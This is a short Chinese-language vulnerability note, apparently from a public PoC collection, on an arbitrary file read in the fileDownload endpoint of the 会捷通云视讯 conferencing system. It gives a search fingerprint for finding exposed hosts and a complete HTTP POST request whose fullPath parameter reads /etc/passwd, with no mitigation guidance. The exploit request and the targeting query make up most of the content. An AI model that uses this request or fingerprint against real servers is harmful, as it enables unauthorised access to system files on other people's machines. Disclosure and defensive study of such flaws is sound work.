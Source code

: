 # 会捷通云视讯 fileDownload 任意文件读取漏洞

## 漏洞描述

会捷通云视讯 fileDownload 存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>会捷通云视讯</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/him/api/rest/v1.0/node/role"</a-checkbox></br>

## 漏洞复现

登陆页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145854036.png)



发送请求包

```plain
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: 
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

fullPath=%2Fetc%2Fpasswd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145853963.png)



## 